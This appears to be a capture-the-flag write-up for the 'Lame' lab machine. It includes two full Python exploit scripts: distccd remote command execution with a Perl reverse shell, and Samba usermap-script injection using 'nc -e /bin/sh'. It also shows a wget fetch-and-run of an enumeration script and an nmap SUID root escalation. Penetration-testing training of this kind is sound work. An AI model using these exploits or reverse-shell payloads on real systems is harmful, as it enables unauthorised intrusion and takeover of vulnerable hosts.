

## Overview
Lame is an Ubuntu 8.04 box running distcc which is a tool designed to speed up code compilation by sending code to compile to other networked computers. This service was exploited to get the initial shell by sending a shell command padded with additional strings to make the compiler think it was getting a compile request but instead created a reverse shell. I escalated privileges to root by taking advantage of nmap which had the suid permission set. There is an alternate path to root which allowed commands to be run when the username map script smb.conf option is enabled.

## Enumeration

**Software**

* vsFTPd 2.3.4
* OpenSSH 4.7p1
* smbd 3.0.20-Debian
* distccd v1 (GNU) 4.2.4
* Ubuntu 8.04
* Sudo version 1.6.9p10
* mysql  Ver 14.12 Distrib 5.0.51a, for debian-linux-gnu (i486) using readline 5.2

**Port Scan**

```
nmap -sT -sV -Pn -n -p-  10.10.10.3 -oN /root/boxes/lame/_full_tcp_nmap.txt
```

* 21/tcp - ftp
* 22/tcp - ssh
* 139/tcp - samba smbd
* 445/tcp - samba smbd
* 3632/tcp - distccd

**SMB**

```
smbclient -L //10.10.10.3 -N
```


## Steps (user)

Looking at the port scan I noticed that vsftpd 2.3.4 was running on port 21.  This version is known to have a backdoor that opens port 6200 on the target when a ":)" is appended to the username. I attempted this but for whatever reason the target did not seem vulnerable to so I moved on.

I used the smbclient tool to browse the smb shares to see if I could find any useful information.  I didn't find anything useful but I was able to write to /tmp, noting this for later.

```
smbclient //10.10.10.3/tmp -N
```


Next I looked at port 3632 running [distcc](https://distcc.github.io/) which is a tool for speeding up compilation of source code by using distributed computing over a network. Running a search in searchsploit for distcc returned one result.


Looking into the exploit, it appears to send a shell command and some additional strings to trick the service into thinking it's a compile operation.  The exploit was written in ruby for Metasploit and I decided to write my own in python instead.

```python
#!/usr/bin/python3
# Distcc Daemon Exploit
# Based on the Metasploit Exploit https://www.exploit-db.com/exploits/9915

import socket
import random
import string
import argparse

def dist_cmd(*argv):
    
    # Convince distccd that this is a compile
    argv = argv + ('#','-c','main.c','-o','main.o')
        
    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + "ARGC" + (str(len(argv))).zfill(8)
    
    for arg in argv:
        res += "ARGV" + (str(hex(len(arg))).strip("0x")).zfill(8) + arg

    return res

def exploit(lhost,lport,rhost,rport):

    payload = """perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,""" + '"' + lhost + ":" + lport + '"' + """);STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'"""

    # connect the client
    print("[*] Connecting to target...")
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.connect((rhost, rport))

    # Sending payload
    print("[*] Sending payload...")
    distcmd = dist_cmd("sh", "-c", payload)
    c.send((distcmd).encode('utf-8'))

    # Sending Second Payload
    print("[*] Sending second payload...")
    randomstr = ''.join(random.choices(string.ascii_letters + string.digits, k=10))
    c.send(('DOTI0000000A' + randomstr).encode('utf-8'))

    #receive
    r = c.recv(4096)
    print("[*] Server Response => " + (r).decode('utf-8'))
    c.close

def main(): 

    print("Distcc Daemon Exploit")
    parser = argparse.ArgumentParser(description="Distcc Daemon Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=3632)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()


```

I set up a netcat listener on port 4200 (nc -lvnp 4200) and ran the script. I received a callback and shell as user "daemon".

```
./distcc-exploit.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3
```


## Steps (root/system)

Linenum was copied to my working directory, and apython http server started in preparation to transfer the file to the target.
```
cp ~/tools/LinEnum/LinEnum.py le.sh
python3 -m http.server 80
```

On the target I used wget to download and run LinEnum

```
wget http://10.10.14.29/le.sh
chmod +x ./le.sh && ./le.sh
```

Reviewing the results of LineEnum, Under "Possibly Interesting SUID files", nmap was listed. This can be used to escalate privileges.


> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

I ran "nmap --interactive" followed by "!sh" to get shell as root




## Steps (root/system) - Alternate

There is a direct path to route by exploiting a flaw in Samba 3.0.20 < 3.0.25rc3 by executing arbitrary commands via shell metacharacters when the username map script smb.conf option is enabled. I created a script to automate the exploit and create a reverse shell.

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection
import argparse

def exploit(lhost,lport,rhost,rport):
    
    # Simple netcat reverse shell payload
    payload = "nc -e /bin/sh " + lhost + " " + lport

    # Send the commands + payload via using ntlmv1 to target host
    username = "/=`nohup " + payload + "`"
    password = "anything"
    conn = SMBConnection(username, password, "myname", "remotename", use_ntlm_v2 = False)
    assert conn.connect(rhost, int(rport))

def main():
    
    print("Samba Usermap Script Exploit")
    parser = argparse.ArgumentParser(description="Samba Usermap Script Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=139, required=True)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()

```

I set up a netcat listener (nc -lvnp 4200) and ran the script. I received a callback and shell as root.

```
./samba-usermap-script.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3 --rport 139
```


